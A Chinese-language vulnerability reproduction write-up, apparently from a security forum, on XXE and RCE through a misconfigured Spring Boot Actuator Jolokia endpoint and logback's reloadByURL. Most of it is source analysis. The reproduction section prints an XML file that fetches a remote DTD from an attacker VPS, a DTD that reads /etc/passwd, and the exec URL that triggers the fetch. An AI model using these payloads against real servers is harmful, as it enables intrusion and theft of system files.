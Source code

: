 # Spring Boot Actuator jolokia 配置不当导致的远程文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3132](https://www.zhihuifly.com/t/topic/3132)

# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```

![4140320665.png](img/f20f5c7e823f0d037b8142c60dd0f210.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![image](img/bf0806e61a0a6fc126b4d00804252268.png)

只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![image](img/946a6fbf3f2505d41410886b6fe26bb2.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定

![image](img/870196513b650678e707633837cb0aa0.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![image](img/9b921a5dd7571988b5f80c712698d79e.png)

跟进 initObjectName 函数，如下

![image](img/e16c1ee02ab43085ad3bf65530c5e796.png)

如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![image](img/b9b755dff799e11d97900b0991463ace.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![image](img/113fcb5b6cf0b539664c1c7458d01328.png)

如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![image](img/e9a10bbdfe253acc034611e4dc4e2437.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![image](img/994933184ba9de2206bd6590045bc239.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![image](img/90246ad1a06b2fd4f154015b453c746e.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![image](img/fb1cc522e02a051a423f734adbed5021.png)

继续跟进上图中的红色方框如下

![image](img/96808491a62e3e896c4d318c109108b1.png)

如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![image](img/6f9a4577dc67626e2f515e0dd0edba44.png)

很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![image](img/49173cddf7d8b37f247b4bb2eeca7f5a.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![image](img/50d28afbb1ec410a6f70bfa71d91af76.png)

其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```

![2.png](img/d67da368e964591ed55f7cd1978e5e7e.png)

*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```

![1.png](img/c26997d908ed601561d2d89cd97afa7f.png)

*   可以看到服务器上也返回了响应日志
    ![3.png](img/1d88a7a192f0a76444971681aade5832.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/